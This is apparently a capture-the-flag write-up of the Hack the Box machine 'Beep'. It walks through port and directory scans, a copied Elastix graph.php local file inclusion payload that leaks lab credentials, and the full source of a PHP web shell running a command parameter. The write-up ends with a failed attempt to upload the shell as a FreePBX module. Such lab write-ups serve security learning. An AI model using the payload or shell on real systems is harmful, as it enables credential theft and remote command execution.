

# Hack the Box - Beep

## Step 1 - Accessing the site
After spawning the box, I immediately tried to access the site. The connection was immediately upgraed to https, but secure connection failed due to `SSL_ERROR_UNSUPPORTED_VERSION` -error.  


I wonder if this is a designed step in the machine, but Firefox has disabled [TLS 1.0 and TLS1.1](https://hacks.mozilla.org/2020/02/its-the-boot-for-tls-1-0-and-tls-1-1/).

I launched BurpSuite and used its chromium based browser which works just fine:  


I haven't heard of "Elastix" before, and decided to do some research, but that turned out to be harder than expected. Trying to access Elastix's site, I was greeted by the following:  


I wonder if it's some legacy solution? Wikipedia had answers for me:
>Elastix is a unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing.

Elastix was originally a open source project, but it was acquired by a third-party company which made the project propriatery. Wikipedia says the latest release was in 2016. The copyright footer on the target site is up to 2024, so perhaps we have a newer version?

So I was greeted with a login page and without any idea about the correct credentials, I tried some obvious ones.
- admin:admin
- admin:eLaStIx.2oo7
- admin:mypassword
- admin:password...

None worked, so time for some enumeration.

## Step 2 - Enumerating the Website
First thing I checked were the cookies. Cookie named "elastixSession" was found, perhaps this could be changed to a valid session cookie and gain access to the system that way?  


I did a nmap scan which found quite a open few ports. However, I have a feeling most of these are false positives.
```Sh
$ nmap -sV -p- 10.129.229.183
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-19 17:31 EET
Nmap scan report for beep.htb (10.129.229.183)
Host is up (0.043s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
856/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Host: 127.0.0.1
```

Running ffuf found using wfuzz's megabeast.txt and scanning for php, html, js and txt extensions resulted in a handful of sites of which `robots.txt`, `register.php` and `index.php` were accessible without credentials.
```sh
admin                   [Status: 301, Size: 317, Words: 20, Lines: 10]
help                    [Status: 301, Size: 316, Words: 20, Lines: 10]
images                  [Status: 301, Size: 318, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 1785, Words: 103, Lines: 35]
mail                    [Status: 301, Size: 316, Words: 20, Lines: 10]
modules                 [Status: 301, Size: 319, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 317, Words: 20, Lines: 10]
recordings              [Status: 301, Size: 322, Words: 20, Lines: 10]
register.php            [Status: 200, Size: 1785, Words: 103, Lines: 35]
robots.txt              [Status: 200, Size: 28, Words: 3, Lines: 3]
static                  [Status: 301, Size: 318, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10]
```

`index.php` is not too interesting (points to the login page), and `robots.txt` was fairly empty. As a refresher, sites use a file called robots.txt to tell search engine crawlers which URLs the crawler can access on the site.


The registration page `register.php` showed looked exactly similar as the login page.


However, as this was the most interesting one of the sites discovered by ffuf, I decided to investigate further using `BurpSuite's` intercept feature.

I sent a request from `register.php`, and for some reason no response is returned. Logging in from `index.php` didn't work with the new account. This told me that the registration failed.


## Step 3 - Exploiting the LFI vulnerability
Next off I tried simply searching for "Elastix Vulnerability" and stumbled across [Elastix 2.2.0 - 'graph.php' Local File Inclusion](https://www.exploit-db.com/exploits/37637). I copied the LFI exploit `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` and sure enough, that worked!


I copied contents of the file into file on my local machine and searched for usernames and password. It didn't take long to find a username and a few password options from the file. Trying out these on the login page granted access to "admin" account.  
 

admin:jEhdIekWmdjE

elastix:passw0rd ?

Before exploring the dashboard furhter, I wanted to see if these credentials were re-used and tried to ssh into the machine.
```sh
touhottaja@Laptop:~$ ssh admin@10.129.229.183
Unable to negotiate with 10.129.229.183 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
touhottaja@Laptop:~$ ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 admin@10.129.229.183
Unable to negotiate with 10.129.229.183 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
touhottaja@Laptop:~$ ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 -oHostKeyAlgorithms=+ssh-rsa admin@10.129.229.183
admin@10.129.229.183's password: 
Permission denied, please try again.
```

No luck there. I think these machines are slowly starting to ramp up and low hanging fruits are not as common.

## Step 4 - Looking for Foothold

Since I had no luck with credential re-use, I started exploring the Elastix dashboard.


I went through the menus one by one and found a handful of useful information:
- Host: bleep
- Machine is based on CentOS-5
- The packages installed on the machines  


I went back to check the endpoints which I found using ffuf. The `/recordings` site greeted me with FreePBX 2.5 login page. The same credentials worked here (admin:jEhdIekWmdjE). This page didn't contain anything interesting, though.  


`/modules` endpoint revealed a bunch of modules used by FreePBX. Looking closer, the modules were programmed in php. If I could upload my own module, I probably could get a reverse shell.  


Next I visited `/admin` endpoint which prompted for credentials as well. The same credentials worked. This lead me to FreePBX admin page.  


The first menu I checked on this admin page was the Module Admin menu, in which I found a Upload module button. If my theory was correct, I could upload my own php code which would spawn a reverse shell.  


I created my shell file
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
and tried uploading it to as a module. This didn't work, because FreePBX expects the file to be in tar+gzip (.tgz or .tar.gz) format. No biggie, I can do that easily with:
```sh
$ tar -zcvf shell.tar.gz shell.php
```
That failed due to format error. The filename has to be in format modulename-version.tar.gz.
```sh
$ mv shell.tar.gz shell-0.1.tar.gz
```
The next error was file extraction error. The tar did not extract correctly. At this point it made more sense to read how the FreePBX module was supposed to be built instead of trying to "brute force it".